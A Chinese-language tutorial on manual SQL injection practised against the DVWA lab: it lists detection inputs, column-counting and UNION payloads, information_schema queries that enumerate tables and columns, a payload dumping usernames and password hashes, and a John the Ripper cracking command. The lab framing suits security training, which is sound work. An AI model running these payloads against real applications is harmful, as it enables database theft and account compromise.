

# SQL手工注入（一）

> SQL注入：通过把SQL命令插入到Web表单提交或输入域名，页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令

> 服务器程序将用户输入参数作为查询条件,直接拼接SQL语句,并将查询结果返回客户端浏览器

**用户登录判断**

```
SELECT * FROM users WHERE user='uname' AND password='pass'

SELECT * FROM users WHERE user='name' AND password=''OR"=''  [OR:逻辑运算符,(password假)"或"('1'='1'真)]
```

**SQL注入存在位置**

```
表单,GET方式的URL
```

---


##SQL检测方法

> 使用DVWA实验环境,安全等级设为low

1. 基于报错的检测方法

```
'    (单引号)
```


```
"   (尝试两个单引号)  [结果:两两闭合]
```

```
'a"b   (单引号+a+双引号+b)
```


则说明可以构造复杂的SQL语句进行注入

```
"      %       ()
```

2. 基于布尔的检测

- First   1' and '1'='1   等于 1' and '1       

猜测语句:

```
Select first_name,surname from users where id=' 1' and '1'='1 '
```


- Second: 1' and '1'='2      等于 1' and '0   [若无返回结果,则可验证上猜测语句]

3. 表列数/显示信息位于哪一列

```
' order by 9--   (单引号+order by+空格+数字 [该数字用于指定字段,可以填大而后猜确切列数]+--+空格[一定要有空格,否则会出现语法错误   --:为注释])
```

构造select语句

4. 联合查询[为了在过滤的单引号后面,在运行查询语句]

> union与union all作用基本完全相同

```
First: 'union select 1,2 --   [确定查询后结果在页面中出现位置]
```

```
Second: 1' union select user(),2--  [1替换成一个数据库默认user()查询数据库用户]
       'union select user(),version()-- [将2替换成函数version()查询版本]
```

> database()查询数据库名称
>
> 全局函数:@@datadir  查询数据库的文件位置
>
> >​            @@hostname   查询主机名
>
> > ​             @@version_compile_os     查询操作系统版本


**构造复杂的SQL语句**

```
' union select database(),substring_index(USER(),"@",1)--
```

使用firefix插件hackbar工具:


绕过一些过滤不严的机制:

```
CHAR()    将ASCII码转换为对应的字符
```

连接字符:

```
CONCAT_WS()        将多个函数连接在一起
```


计算MD5  [可用于使用别人的服务器资源来为自己做大量的数据运算]


了解数据库的数据结构

> MySQL:所有的元数据都保存在一张元数据表中[information_schema]

1. 查看所有库所有表/统计库中表的数量

```
' union select table_name,table_schema from information_schema.tables--+ [所有库所有表]
```


```
' UNION select table_schema,count(*) imgFROM information_Schema.tables group by table_schema --+    [统计每个库中表的数量]
```




2. DVWA库中的表名 [一个参数漏洞,也可造成拖库]

```
' union select table_name,table_schema from information_schema.tables where table_schema='dvwa'--+     【通过表名猜测账号密码存放位置】
```


3. 查询users表中所有的列(user_id,first_name,last_name,user,password,avatar)

```
' union select table_name,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'--+
```


4. 查询user,password列中的内容

```
' union select user,password from dvwa.users--+
' union select user,password from users--+
' union select null,concat(user,0x3a,password)from users--+ [concat:连接,需指定分隔符]
```


5. 密码破解

猜测密码算法:hash-identifier


**工具**

john--formt=raw-MD5 dvwa.txt

